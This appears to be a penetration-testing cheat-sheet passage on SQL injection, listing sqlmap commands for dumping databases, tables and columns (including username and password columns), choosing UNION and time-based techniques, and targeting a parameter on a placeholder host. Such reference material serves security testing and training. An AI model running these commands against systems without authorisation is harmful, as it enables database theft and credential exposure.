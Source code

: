 ```yaml
---
title: SQL Injection
desc:
tags: [Database, Injection, SQL, Web]
alts: []
render_with_liquid: true
---
```


## Automation

- **Sqlmap**

    Sqlmap is an usefule command-line tool for SQL injection automatically.  
    You can specify the request settings file which generated in **Burp Suite** by adding the flag **"-r"**.

    ```sh
    sqlmap -r request.txt
    sqlmap -r request.txt --dump --dbs --tables --columns --random-agent
    sqlmap -r request.txt --dump --dbms mysql --risk 3 --level 5

    # --fresh-queries: new data in tables
    sqlmap -r request.txt --fresh-queries

    # Specify dabase name, table name, column name
    sqlmap -r request.txt -D database_name -T table_name -C column_name
    # Specify multiple columns
    sqlmap -r request.txt -D database_name -T table_name -C username,password

    # --technique=U: UNION attack
    # --delay=2: Time Delay
    sqlmap -r request.txt --technique=U --delay=2

    # --time-sec: Sleep time for Time-Based Blind SQLi
    sqlmap -r request.txt --time-sec 2
    ```

    - **Basic Commands**

        ```sh
        # GET request
        sqlmap -u "http://<target-ip>/?search=test"
        # -p: target parameter
        sqlmap -u "http://<target-ip>/?category=test&item=1" -p item 
